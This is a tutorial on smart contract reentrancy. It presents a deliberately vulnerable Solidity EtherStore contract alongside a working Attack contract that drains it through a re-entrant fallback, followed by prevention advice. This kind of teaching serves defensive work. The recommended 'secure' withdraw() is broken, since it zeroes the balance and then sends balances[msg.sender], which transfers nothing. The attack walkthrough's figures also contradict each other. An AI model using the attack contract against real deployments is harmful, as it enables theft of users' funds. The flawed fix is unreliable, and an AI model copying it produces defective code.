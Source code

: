 ## Reentrancy

Reentrancy is an attack that can occur when a bug in a contract may allow a malicious contract to reenter the contract unexpectedly during execution of the original function. This can be used to drain funds from a smart contract if used maliciously. Reentrancy is likely the single most impactful vulnerability in terms of total loss of funds by smart contract hacks, and should be considered accordingly.

[List of reentrancy attacks](https://github.com/pcaversaccio/reentrancy-attacks)

### External calls

Reentrancy can be executed by the availability of an external call to an attacker controlled contract. External calls allow for the callee to execute arbitrary code. The existence of an external call may not always be obvious, so it's important to be aware of any way in which an external call may be executed in your smart contracts.

##### ETH transfers

When you want to send Ether from your own smart contract to another smart contract, you trigger the `receive()` or `fallback()` functions on the other smart contract, as implemented in that contract.

An attacker can write any arbitrary logic into the `fallback()` method, such that anytime this contract is triggered by another one when transferring Ether, the `fallback()` logic is executed.


### Single function reentrancy

A single function reentrancy attack occurs when a vulnerable function is the same function that an attacker is trying to recursively call.

```solidity

// INSECURE
// DO NOT USE IN PRODUCTION. ONLY MEANT TO SERVE AS AN EXAMPLE

/** 
 * @title EtherStore
 * @dev  Etherstore is a contract where you can deposit and withdraw ETH.
*/

contract EtherStore {

    // The below mapping(balances), correlates an address to a number, i.e this address has this number of value.

    mapping(address => uint256) public balances;

    /**
     * @dev A function that allows anyone(public) to send(payable) ether to it
     * @dev It increases the balances of whoever called this function(msg.sender) to the value attached when calling this function
     * @dev msg.value is the value you attach when calling this function. 
     * @dev Add to the caller's existing balance, i.e balances[msg.sender] the value attached when the caller calls this function
    */
    function deposit() public payable {
        balances[msg.sender] += msg.value;
    }

    /**
     * @dev A function that allows for withdrawals of funds
     * @dev Checks the balance of the the caller and ensures that the balance is greater than 0
     * @dev Calls either the `receive()` or `fallback()` of the caller in an attempt to send it ether
     * @dev ("") is calling the `receive()` or `fallback()`
     * @dev {value: bal} attempts to transfer caller's entire balance, i.e uint256 = bal = balances[msg.sender] to himself
     * @dev This is fine until the caller, msg.sender is another smart contract. Remember the blockchain is composable, i.e
     *   you can build on top of existing contracts by calling any of their functions in those contracts
     * 
     * @dev Requires sent to return true or it throws an error
     * @dev Reduces caller's balances to 0 as all his balances have been assumed to have been sent to him.
    */

    function withdraw() external {
        uint256 bal = balances[msg.sender];
        require(bal > 0, "You balance isn't greater than 0");

        (bool sent,) = msg.sender.call{value: bal}("");
        require(sent, "Failed to send Ether");

        balances[msg.sender] = 0;
    }

    // Helper function to check the balance of this contract
    function getBalance() public view returns (uint256) {
        return address(this).balance;
    }
}


contract Attack {

    /**
     * @dev Attacker imports contract EtherStore. 
     * @dev etherStore is an instance of EtherStore and any interactions to contract EtherStore in attacker contract 
    *   happens via etherStore
    */
    EtherStore public etherStore;
    uint256 public constant AMOUNT = 1 ether;

    constructor(address _etherStoreAddress) {
        etherStore = EtherStore(_etherStoreAddress);
    }

    // Fallback is called when contract EtherStore sends Ether to this contract.
    fallback() external payable {
        if (address(etherStore).balance >= AMOUNT) {
            etherStore.withdraw();
        }
    }

    function attack() external payable {
        require(msg.value >= AMOUNT);
        etherStore.deposit{value: AMOUNT}();
        etherStore.withdraw();
    }

    // Helper function to check the balance of this contract
    function getBalance() public view returns (uint256) {
        return address(this).balance;
    }
}

```

The above setup contracts showcase how re-entrancy attacks occur

1. A developer deploys contract EtherStore to the blockchain
2. Alice and Bob deposit 5 ether each into contract EtherStore by calling `deposit()` function. EtherStore now has 10 ether
3. An attacker, Eve deploys contract Attack with address of EtherStore in the constructor
4. The attacker calls `Attack.attack()` sending 1 ether. Eve gets 11 Ether back (5 Ether stolen from Alice and Bob, plus 1 Ether sent from her own contract `Attack`).

## What happened?

Attack was able to call `EtherStore.withdraw()` multiple times before `EtherStore.withdraw()` finished executing, i.e Eve was able to re-enter back into function `withdraw()` in contract `EtherStore` before it finished executing!



# Reentrancy prevention

The simplest reentrancy prevention mechanism is to use a ReentrancyGuard, which allows you to add a modifier, e.g. nonReentrant, to functions which may otherwise be vulnerable. 

For optimum security, use the checks-effects-interactions pattern. This is a simple rule of thumb for ordering smart contract functions.

The function should begin with checks, e.g. require and assert statements.

Next, the effects of the contract should be performed, i.e. state modifications.

Finally, we can perform interactions with other smart contracts, e.g. external function calls.

This structure is effective against reentrancy because when an attacker reenters the function, the state changes have already been made. For example:

```solidity
function withdraw() external {
  uint256 bal = balances[msg.sender];
  balances[msg.sender] = 0;
  (bool sent,) = msg.sender.call{value: balances[msg.sender]}("");
  require(sent);
}
```

Since the balance is set to 0 before any interactions are performed, if the contract is called recursively, there is nothing to send after the first transaction.